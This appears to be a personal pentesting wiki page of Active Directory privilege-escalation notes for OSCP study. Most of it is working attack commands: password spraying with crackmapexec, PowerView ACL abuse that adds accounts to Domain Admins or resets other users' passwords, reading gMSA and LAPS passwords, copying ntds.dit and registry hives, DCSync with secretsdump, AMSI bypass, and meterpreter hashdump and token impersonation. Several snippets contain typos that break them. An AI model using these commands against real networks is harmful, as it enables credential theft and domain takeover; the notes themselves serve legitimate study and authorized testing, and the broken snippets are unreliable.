 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration-Defined]]. [[Networks/Network-Protocols]] are used extensive, especially [[DNS-Defined]] in AD networks.

THIS VERY WORK IN PROGRESS! AND VERY EARLY THERE ARE BETTER ELSEWHERE

## Scripts
[ADAPE](https://github.com/hausec/ADAPE-Script)

## Tooling

#### Recon Tools

- **DNS**
For more about [[DNS-Defined]], for enumeration for DNS see both 
[[DNS-Recon-Active]] and [[DNS-Recon-Passive]].
- **SMB**
See [SMB tool](SMB-Recon-Cheatsheet.md) and [[RPCClient-Cheatsheet]]
You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs. `crackmapexec smb $IP -u users.txt -p passes.txt`
- **LDAP**
[[LDAP-Recon]]

#### Box Enumeration
[[Active-Directory-Enumeration-Cheatsheet]] and [[Active-Directory-Enumeration-Defined]] 
[[Windows-Privilege-Escalation-Vectors]] maybe required! 

[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is  a github repose that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 

#### AMSI Bypassing
[[AMSI-Exploitation]] and [[AMSI-Bypassing]]

#### Exploitation Tools
[[Impacket-Cheatsheet]]
[[Kerbrute-Cheatsheet]]
[[Crackmapexec-Cheatsheet]]
[[Rubeus-Cheatsheet]] 
[[Seatbelt-Helpsheet]]
[[Mimikatz-Cheatsheet]]
[[Kekeo-Cheatsheet]]

#### C2s
[[C2-Matrix]]
[[Empire]] - Empire and Starkiller


#### Powerview
PowerView *is a powershell tool to gain network situational awareness one Windows domains."* For a good concatenation of all the [[Powerview-Cheatsheet]] see follow the link.[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Due to AD commands are a restricted to DCs and some(times) Adminstrators. Get PowerView on the box, you need some help. Below are some the commands in the cheatsheet but scenarios included
```powershell
. .\PowerView.ps1				# import PowerView
Import-Module PowerView.ps1		# Use this it is better	
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

# ACL Abuse
ForceChangePassword use Set-DomainUserPassword
AddMembers use Add-DomainGroupMember
GenericAll use Set-DomainUserPassword or Add-DomainGroupMember
GenericWrite use Set-DomainObject
WriteOwner use Set-DomainObject
WriteDACL use Add-DomainObjectACL
AllExtendedRights use Set-DomainUserPassword or Add-DomainGroupMember


Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```

#### Bloodhound and Sharphound
Mapping out the Domain and its properties is key to mental digesting the interconnected system of systems, abstract and physical see: [[Neo4j-And-Bloodhound-Guide]].

- Mark users as owned helps with speed in recursive lookups and visual clutter 
- Unroll group Membership in Bloodhound



## Users and Groups
[[Active-Directory-Default-Security-Groups-Table]] also contains addition pwnables possiblities.
```powershell
net user $user $password /add /domain
net group "$groupname" /add $user

# LAPs group can read passwords
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
# Password is in output or Kali lapsdumper
```

`whoami /all` check for [[SePrivilege-Token-Table]]:
For [[SeBackup-Privilege]] can run `robocopy` against any file even when lack permissions. For OSCP proofing and for non CTFs best use of robocopy the NTDSs.dit, system and sam files exfiltrate out, `secretsdump` from [[Impacket-Cheatsheet]], crack or [[Pass-The-Hash]] and elevate. Or you could copy the entire Hive
```powershell
robocopy /b C:\Windows\NTDS\ntds.dit
robocopy /b C:\Windows\System32\config\SYSTEM
robocopy /b C:\Windows\System32\config\SECURITY
```


ReadGMSAPassword
```powershell
$gmsa = Get-ADServiceAccount -Identity $username-of-target-account -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$convmp = ConvertFrom-ADManagedPasswordBlob $mp
$passwd = $convmp.'currentpassword'
# Some default groups have $ at the end! Also the $user variable is easier later steps
$user = '$username-of-target'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = Net-Object System-Managemt.automation.pscredential $user,$secpass
```


GenricAll Permission
```powershell
# $cred is the user with generic write
$user = '$username-with-generic-write'
$pass = ConvertTo-SecureString 'yourpasswordgoeshere' -AsPlainText -Force
$cred = Net-Object System-Managemt.automation.pscredential $user,$pass
# Run a command on remote box, but we are using another users credentials
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-AdAccountPassword -Identity $targetuser -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -Force)} -Credential $cred 
```
Then Wmi remote in with [[Impacket-Cheatsheet]]
```bash
impacket-wmiexec.py '$domain/$user:$password@domain.local'
```

ForceChangePassword - Bloodhound and [[Powerview-Cheatsheet]]
```powershell
$newpass = ConvertTo-SecureString 'yourpasswordgoeshere' -AsPlainText -Force
# Powerview command
Set-DomainUserPassword - Identity $target -AccountPassword $newPass
```

GenericWrite - [[Powerview-Cheatsheet]]
```powershell
# Without Bloodhound
Import-PowerView.ps1
Invoke-ACLScanner -ResolveGUIDs | ? {$_.identityreferncename -like '$target$'}
Set-DomainObjectOwner -identity 'Domain Admins' -OwnerIdentity $target
Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity $target -Rights all
Add-DomainGroupMember -Idetnity  'Domain Admins' -Members $target
# Log off and on to affect change
```


Account Operators/Write DACL - [[AMSI-Exploitation]]
[[Powerview-Cheatsheet]], [[Evil-winrm-Cheatsheet]] and [[Impacket-Cheatsheet]] or  [[Crackmapexec-Cheatsheet]]
```powershell
# Account Operators can create and modify non-protected users and groups
# Find one - Non-Protect != Protected, but more privileged the better
net user $user $password /add /domain
net group "$Non-Protected-Group" $user /add
net localgroup "Remote Managment Users" $user /add # For Remoting
Bypass-4MSI # Evil-Winrm
# Dump creds with DC-SYNCing and secretsdumps
```
[[AD-DC-Sync-Attack]] 

GetChangesAll/Replication - PrivEsc with [[AD-DC-Sync-Attack]] with [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DC-ip
# For just ntlms 
-just-dc-ntlm 
```



## Services

If SPN misconfigured Privileges using combinations of [[Active-Directory-Lateral-Movement]] and [[AD-Kerberos-Delegation-Exploitation]].
```powershell
setspn -T medin -Q  */*        # extract all accounts in the SPN - service principle name - service and account mapping
```


## Appendix

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [[Proxies]] and [[Pivoting-and-Proxying-with-Metasploit]] 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter
migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $TOKEN
```


## References

[10 AD PrivEsc Concepts You MUST Know for Mastering OSCP](https://www.youtube.com/watch?v=xowytiyooBk)
[Snovvcrahs ACL-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse)
[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)